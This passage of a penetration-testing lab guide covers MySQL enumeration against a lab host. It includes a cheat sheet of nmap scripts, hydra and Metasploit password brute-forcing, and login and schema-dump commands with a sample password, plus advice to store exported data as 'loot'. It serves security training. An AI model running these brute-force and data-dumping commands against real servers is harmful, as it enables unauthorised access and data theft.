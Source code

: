 Notes & best practices:
- Avoid exposing passwords on the command line in shared systems. Prefer interactive `mysql -p` prompts or `~/.my.cnf` protected files when appropriate for testing.
- If you discover interesting data, export it (dump, CSV) and store as evidence under a loot directory.

---

## Alternative/auxiliary tools

- `mysqlshow -h <host> -u <user> -p` — list databases and tables
- `mysqladmin -h <host> -u <user> -p status` — basic server status
- `hydra` for brute-forcing (use carefully):

```bash
hydra -L users.txt -P passwords.txt -s 3306 -t 4 mysql://demo.ine.local
```

- `nmap` NSE scripts beyond `mysql-info`: `mysql-empty-password`, `mysql-brute`.

---

## Troubleshooting & common edge cases

- Remote root login disabled: many installations disable `root` remote access — try other usernames (app-specific, `www-data`, `debian-sys-maint`, `backup`).
- Bind address: MySQL may be bound to `127.0.0.1` only. If so, remote TCP enumeration will not work. Use other entries (SSH pivot or local access) if you have them.
- TLS/SSL: Some servers require SSL or use `caching_sha2_password` / `mysql_native_password` plugins — your client must support them.
- Account lockout / delays: avoid aggressive brute force; check for application-level protections.

---

## Quick cheat sheet

```bash
# Network discovery
nmap -p3306 -sV -Pn demo.ine.local
nmap -p3306 --script=mysql-info,mysql-empty-password,mysql-brute -Pn demo.ine.local

# Metasploit quick flow
msfconsole
workspace -a mysql_enum
setg RHOSTS demo.ine.local
use auxiliary/scanner/mysql/mysql_version
set RHOSTS demo.ine.local
run
use auxiliary/scanner/mysql/mysql_login
set USER_FILE users.txt
set PASS_FILE passwords.txt
run

# Native client
mysql -h demo.ine.local -u root -p
mysql -h demo.ine.local -u root -p'P@ssw0rd' -e 'SHOW DATABASES;'
mysqldump -h demo.ine.local -u root -p'P@ssw0rd' --no-data demo_db > schema.sql
```

---
